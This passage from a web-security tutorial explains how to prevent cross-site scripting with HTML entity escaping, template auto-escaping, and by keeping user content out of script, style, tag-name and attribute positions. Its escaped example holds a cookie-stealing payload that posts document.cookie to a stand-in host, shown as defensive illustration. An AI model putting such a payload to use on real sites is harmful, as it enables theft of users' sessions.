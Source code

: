 ```html
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
    '/': '&#x2F;',
    '`': '&grave;',
    '=': '&#x3D;'
  }

  // Match any of the characters inside /[ ... ]/
  const regex = /[&<>"'`=/]/g
  return stringValue.replace(regex, match => entityMap[match])
}
```

This tiny JS function replaces < with &lt;, " with &quot;, and so on. These characters will still render properly as < and " when they’re used in the text, but can’t be interpreted as code constructs. The previous malicious bio will now be converted into the following HTML:

```html
<p>
&lt;script&gt;
  fetch(&#x27;evilwebsite.com&#x27;, { method: &#x27;POST&#x27;, data: document.cookie })
&lt;/script&gt;
</p>
```

which displays harmlessly as text.

Fortunately, as established above, you don’t have to do your escaping manually—I just wanted to demonstrate how simple these concepts are. Every template engine has an auto-escaping feature, and you’re going to want to use a template engine anyway. Just make sure that escaping is enabled, and send all your HTML through it.

### Only serve user-generated content inside HTML tags
This is an addendum to the template engine rule, but it’s important enough to call out on its own. Do not allow your users to define arbitrary CSS or JS content, even with your auto-escaping template engine.

```html
<script>
  const userName = {{ user.name }}
</script>

<!-- Don't include inside CSS tags -->
<style>
  h1 { color: {{ user.favorite_color }} }
</style>
And, don’t use user-defined attributes or tag names either:

<!-- Don't allow user-defined tag names -->
<{{ user.tag }}></{{ user.tag }}>

<!-- Don't allow user-defined attributes -->
<a {{ user.attribute }}></a>

<!-- User-defined attribute VALUES are sometimes okay, it depends -->
<a class="{{ user.class }}"></a>

<!-- Escaped content is always safe inside HTML tags (this is fine) -->
<a>{{ user.name }}</a>
```
